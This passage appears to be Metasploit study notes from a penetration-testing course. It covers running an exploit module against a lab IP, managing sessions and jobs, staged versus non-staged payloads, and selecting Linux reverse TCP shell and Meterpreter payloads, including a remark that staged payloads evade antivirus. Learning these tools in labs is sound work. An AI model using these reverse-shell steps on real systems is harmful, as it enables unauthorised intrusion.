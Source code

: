 ```console
> set RHOSTS 192.168.249.16
> run
```

We can send the session to the background by pressing C+z and confirming the prompt. Use "sessions -l" to list all active sessions. Interact with a session again by passing session id to "sessions -j". Kill sessions with "sessions -k" with the id. 

Instead of launching an exploit module and sending the resulting session to the background, we can use run -j to launch it in the context of a job. We'll still find the output of launching the exploit module, but we'll need to interact with the resulting session before we can access it.

## Using Metasploit Payloads

### Staged vs Non-Staged Payloads

Non-staged payloads are sent in their entirety along with the exploit. The payload contains the exploit and full shellcode for a selected task. These are "all-in-one" and more stable. They will be bigger in size.

Staged payloads are usually sent in two parts. First part is a small primary payload that has the victim connect back to the attacker, and THEN transfers a larger secondary payload containing the rest of the shellcode, and then executes it.

We would use a staged payload if there are space limitations or antivirus software that can detect shellcode in an exploit. Staged payloads are less likely to be detected.

The "/" char indicates if a payload is stages or not. shell_reverse_tcp is not staged, whereas shell/reverse_tcp is.

```
192.168.249.16
```

```console
> show payloads 
   18  payload/linux/x64/shell/reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Stager

> set payload 18

> run
[*] Sending stage (38 bytes) to 192.168.249.16

// only 38 bytes!!
```

### Meterpreter Payload

Metasploit contains the Meterpreter payload, which is a multi-function payload that can be dynamically extended at run-time. The payload resides entirely in memory on the target and its communication is encrypted by default.

```console
> show payloads
   13  payload/linux/x64/meterpreter_reverse_tcp                          normal  No     Linux Meterpreter, Reverse TCP Inline

> set payload 13

> show options
```

